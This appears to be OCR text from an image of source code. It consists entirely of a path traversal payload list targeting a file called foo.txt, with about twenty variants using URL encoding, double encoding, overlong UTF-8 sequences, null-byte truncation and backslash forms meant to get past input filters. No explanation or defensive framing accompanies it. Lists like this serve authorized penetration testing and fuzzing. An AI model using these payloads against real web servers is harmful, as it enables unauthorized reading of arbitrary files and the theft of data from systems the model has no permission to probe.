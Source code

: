 ../../../foo.txt
../../../../../foo%00.txt
..%2f..%2f..%2ffoo.txt
./\/././\/./foo.txt
files/foo.txt/./.[N]/./.
%2e%2e/%2e%2e/%2e%2e/foo.txt
%2e%2e%2f%2e%2e%2f%2e%2e%2ffoo.txt
%2e%2e%2f%2e%2e%2f%2e%2e%2f%2e%2e%2ffoo.txt
..%252f..%252f..%252ffoo.txt
%252e%252e/%252e%252e/%252e%252e/foo.txt
%252e%252e%252f%252e%252e%252f%252e%252e%252ffoo.txt
%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9c%c0%ae%c0%ae%c1%9cfoo.txt
%C0%AE%C0%AE%C0%AF%C0%AE%C0%AE%C0%AFetc%C0%AFfoo
..%uEFC8..%uEFC8..%uEFC8..%uEFC8..%uEFC8..%uEFC8foo.txt
\../\../\../\../\../\../foo.txt
%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5c%c0%2e%c0%2e%c0%5cfoo.txt
..%2f..%2f..%2f..%2f..%2f..%2ffoo.txt
%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\%25c0%25ae%25c0%25ae\foo.txt
..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9c..%c1%9cfoo.txt
..%255c..%255c..%255c..%255c..%255cfoo.txt
..%5c..%5c..%5c..%5c..%5c..%5cfoo.txt

